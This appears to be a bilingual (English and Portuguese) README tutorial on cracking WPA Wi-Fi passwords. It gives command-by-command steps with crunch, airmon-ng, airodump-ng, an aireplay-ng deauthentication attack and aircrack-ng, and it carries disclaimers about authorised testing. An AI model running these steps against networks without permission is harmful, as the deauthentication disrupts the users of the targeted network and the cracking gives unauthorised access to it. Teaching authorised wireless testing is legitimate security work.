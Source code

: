 # Wi-Fi Penetration Testing Guide

> ⚠️ This guide is for educational purposes only. Use it only in environments you have permission to test.

---

## 📁 Setup

Make sure **all processes and files are kept in the same folder** to avoid system clutter.

---

## 🔧 Step 1: Create a Wordlist

### Terminal 1:

1. Open a terminal and create a folder to store the wordlist:
    ```bash
    mkdir wordlists
    cd wordlists
    ```

2. Install **crunch** (if not already installed):
    ```bash
    sudo apt install crunch
    ```

3. Generate the wordlist:
    ```bash
    crunch 4 4 23213 -o wordlist.txt
    ```

- `4 4`: minimum and maximum length of the passwords.
- `23213`: character set for combinations.

---

## 📡 Step 2: Enable Monitor Mode

### Terminal 2:

1. Kill conflicting processes:
    ```bash
    sudo airmon-ng check kill
    ```

2. Start monitor mode on your wireless adapter:
    ```bash
    sudo airmon-ng start <your_interface>
    ```

---

## 📶 Step 3: Scan for Networks

### Terminal 2:

Use the following command to scan for available networks:
```bash
sudo airodump-ng <your_interface>
Identify the BSSID, channel (CH), and ESSID of the target network.

🎯 Step 4: Capture the Handshake
Terminal 3:
⚠️ Do not close this terminal — it captures the handshake!

bash
sudo airodump-ng -c <channel> --bssid <BSSID> -w capture <your_interface>
This will save the captured handshake in a file named capture-01.cap.

💣 Step 5: Deauthentication Attack
Terminal 4:
Force a device to disconnect (and reconnect) to trigger the handshake capture:

bash
sudo aireplay-ng --deauth 10 -a <BSSID> <your_interface>
Watch Terminal 3 to confirm the handshake is captured.

🔓 Step 6: Crack the Password
Use the wordlist you created to crack the captured handshake:

bash
sudo aircrack-ng -w wordlist.txt -b <BSSID> capture-01.cap
✅ Final Step: Restore Network
Return your network interface to normal mode:

bash
sudo systemctl start NetworkManager

📌 Notes
Always use penetration testing tools responsibly and legally.

Test only on networks you own or have explicit permission to audit.

# Guia de Teste de Invasão Wi-Fi

> ⚠️ Este guia é apenas para fins educacionais. Use **somente em redes onde você tem autorização para testar**.

---

## 📁 Organização

Certifique-se de que **todos os processos e arquivos estejam na mesma pasta**, para evitar desorganização no seu sistema.

---

## 🔧 Etapa 1: Criar uma Wordlist

### Terminal 1:

1. Abra um terminal e crie uma pasta para armazenar a wordlist:
    ```bash
    mkdir wordlists
    cd wordlists
    ```

2. Instale o **crunch** (caso ainda não tenha):
    ```bash
    sudo apt install crunch
    ```

3. Gere a wordlist com o seguinte comando:
    ```bash
    crunch 4 4 23213 -o wordlist.txt
    ```

- `4 4`: número mínimo e máximo de caracteres.
- `23213`: conjunto de caracteres para as combinações.

---

## 📡 Etapa 2: Ativar o Modo Monitor

### Terminal 2:

1. Finalize processos que possam interferir:
    ```bash
    sudo airmon-ng check kill
    ```

2. Inicie o modo monitor na sua placa de rede:
    ```bash
    sudo airmon-ng start <sua_placa>
    ```

---

## 📶 Etapa 3: Escanear Redes

### Terminal 2:

Use o comando abaixo para visualizar as redes disponíveis:
```bash
sudo airodump-ng <sua_placa>
Anote o BSSID, o canal (CH) e o nome da rede (ESSID) alvo.

🎯 Etapa 4: Capturar o Handshake
Terminal 3:
⚠️ Este terminal não pode ser fechado — é onde ocorre a captura do handshake.

bash
Copiar
Editar
sudo airodump-ng -c <canal> --bssid <BSSID> -w captura <sua_placa>
A captura será salva em um arquivo como captura-01.cap.

💣 Etapa 5: Desautenticação Forçada
Terminal 4:
Forçamos a desconexão de um dispositivo da rede, o que pode capturar o handshake:

bash
Copiar
Editar
sudo aireplay-ng --deauth 10 -a <BSSID> <sua_placa>
Observe o Terminal 3 para verificar se a captura foi feita com sucesso.

🔓 Etapa 6: Quebrar a Senha
Utilize a wordlist para tentar descriptografar a senha:

bash
Copiar
Editar
sudo aircrack-ng -w wordlist.txt -b <BSSID> captura-01.cap
✅ Etapa Final: Restaurar a Rede
Para voltar ao modo normal da placa de rede:

bash
Copiar
Editar
sudo systemctl start NetworkManager

📌 Observações
Utilize essas ferramentas com responsabilidade e dentro da legalidade.

Realize testes apenas em redes que você possui ou tem autorização explícita para testar.
